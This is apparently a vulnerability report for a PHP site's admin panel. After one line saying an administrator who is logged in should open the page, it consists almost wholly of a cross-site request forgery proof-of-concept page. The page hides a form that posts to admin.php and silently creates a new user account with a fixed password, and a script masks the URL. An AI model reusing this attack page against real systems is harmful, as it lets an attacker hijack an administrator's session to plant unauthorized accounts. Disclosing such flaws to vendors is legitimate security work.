 After the administrator logged in, open the following page

`<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.33.62.73:8080/admin.php?" method="POST">
      <input type="hidden" name="moduleid" value="2" />
      <input type="hidden" name="file" value="index" />
      <input type="hidden" name="action" value="add" />
      <input type="hidden" name="post&#91;regid&#93;" value="5" />
      <input type="hidden" name="post&#91;username&#93;" value="1234567" />
      <input type="hidden" name="post&#91;passport&#93;" value="" />
      <input type="hidden" name="post&#91;password&#93;" value="qwe123" />
      <input type="hidden" name="post&#91;cpassword&#93;" value="qwe123" />
      <input type="hidden" name="post&#91;email&#93;" value="123111&#64;123&#46;com" />
      <input type="hidden" name="post&#91;truename&#93;" value="1111" />
      <input type="hidden" name="post&#91;gender&#93;" value="1" />
      <input type="hidden" name="post&#91;areaid&#93;" value="1" />
      <input type="hidden" name="post&#91;department&#93;" value="" />
      <input type="hidden" name="post&#91;career&#93;" value="" />
      <input type="hidden" name="post&#91;mobile&#93;" value="" />
      <input type="hidden" name="post&#91;qq&#93;" value="" />
      <input type="hidden" name="post&#91;wx&#93;" value="" />
      <input type="hidden" name="post&#91;wxqr&#93;" value="" />
      <input type="hidden" name="post&#91;ali&#93;" value="" />
      <input type="hidden" name="post&#91;company&#93;" value="" />
      <input type="hidden" name="post&#91;type&#93;" value="" />
      <input type="hidden" name="post&#91;thumb&#93;" value="" />
      <input type="hidden" name="post&#91;catid&#93;" value="" />
      <input type="hidden" name="post&#91;business&#93;" value="" />
      <input type="hidden" name="post&#91;size&#93;" value="" />
      <input type="hidden" name="post&#91;regunit&#93;" value="äººæ&#176;&#145;å&#184;&#129;" />
      <input type="hidden" name="post&#91;capital&#93;" value="" />
      <input type="hidden" name="post&#91;regyear&#93;" value="" />
      <input type="hidden" name="post&#91;address&#93;" value="" />
      <input type="hidden" name="post&#91;postcode&#93;" value="" />
      <input type="hidden" name="post&#91;telephone&#93;" value="" />
      <input type="hidden" name="post&#91;fax&#93;" value="" />
      <input type="hidden" name="post&#91;mail&#93;" value="" />
      <input type="hidden" name="post&#91;homepage&#93;" value="" />
      <input type="hidden" name="post&#91;gzh&#93;" value="" />
      <input type="hidden" name="post&#91;gzhqr&#93;" value="" />
      <input type="hidden" name="post&#91;sell&#93;" value="" />
      <input type="hidden" name="post&#91;buy&#93;" value="" />
      <input type="hidden" name="post&#91;content&#93;" value="&lt;br&#32;type&#61;&quot;&#95;moz&quot;&#32;&#47;&gt;" />
      <input type="hidden" name="post&#91;edittime&#93;" value="1" />
      <input type="hidden" name="submit" value="ç&#161;&#174;&#32;å&#174;&#154;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>`
